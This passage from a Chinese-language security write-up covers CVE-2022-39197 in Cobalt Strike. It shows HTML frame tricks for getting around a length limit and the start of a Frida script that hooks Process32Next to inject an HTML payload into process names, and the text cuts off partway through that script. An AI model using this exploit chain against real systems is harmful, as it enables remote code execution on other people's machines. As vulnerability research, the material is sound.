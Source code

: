 解决方法是套一个frameset

    
    
    <html><frameset rows=*><frame src=x>  
    

当然还有一个小技巧可以进一步压缩

    
    
    <html>1<frame src=x>  
    

这也是可以运行的。这在jdk高版本的时候是可以成功引入外部页面的，但是在java8俗称j8的jdk1.8上却会报错

![](https://gitee.com/fuli009/images/raw/master/public/20220927173821.png)

这个是由于frame在渲染frameview的时候会强制转换其父组件的类型为这个类型，然而转换失败了就会报错。这个问题在jdk1.8里是无解的，这也是我在一开始认为无法绕过首页长度限制的原因（因为我用的jdk1.8）。好了，总之引用frame标签就可以绕过首页的长度限制了。那么如何在jdk1.8的情况下继续攻击目标呢？

## 0x06 无视jdk版本的RCE

前面解释过了，首页受到metadata的长度的限制，几乎只有frame标签可以绕过限制，而jdk1.8版本的情况下是不可能使用frame标签进行绕过的。那么我们如何进行攻击？这时候我们就要退而求其次，假设攻击者可以和beacon进行交互操作的情况下看看能不能RCE。答案是肯定的。正如前面所说，beacon和teamserver的交互大体分为两个部分一个是上线包的RSA另一个是后续命令下发的AES，因此我们只需要在命令下发的AES流程里注入数据，那就可以无视metadata的长度限制问题从而进行RCE了。这样讲很抽象，可以看点实际的。

![](https://gitee.com/fuli009/images/raw/master/public/20220927173823.png)

也就是说除了首页那个列表和eventlog以外所有命令下发的回显和交互都是在AES里传递数据的，因此只要我们能看到的界面数据可以控制，就可以进行XSS攻击！这里我通过frada脚本来hook
win
api修改tasklist返回的进程名，将进程名改写成攻击payload，当攻击者点击beacon执行列出进程时，只要他浏览到带有payload的进程名，就会执行RCE！我在这个项目的基础上进行的修改`https://github.com/TomAPU/poc_and_exp/blob/master/CVE-2022-39197/cobaltfire.py`
我的frada脚本内容是

    
    
    import frida  
    import time  
    import argparse  
      
      
    def spoof_user_name(target,url):  
        #spawn target process  
        print('[+] Spawning target process...')  
        pid=frida.spawn(target)  
        session=frida.attach(pid)  
      
        js='''  
        var payload="<html>beacon.exe            <object classid='xxx.xxx.xxx.xxx'><param name='xxx'value='xxx'>"  
        payload=Array.from(payload).map(letter => letter.charCodeAt(0))  
          
        var Process32Next=Module.findExportByName("kernel32.dll", 'Process32Next')  
      
        Interceptor.attach(Process32Next, {  
            onEnter: function(args) {  
                //var hProcessSnap=args[0]  
                var info=args[1];  
                this.info = info;  
                //console.log(this.info);  
                this.szExeFile=this.info.add(0x24);  
                  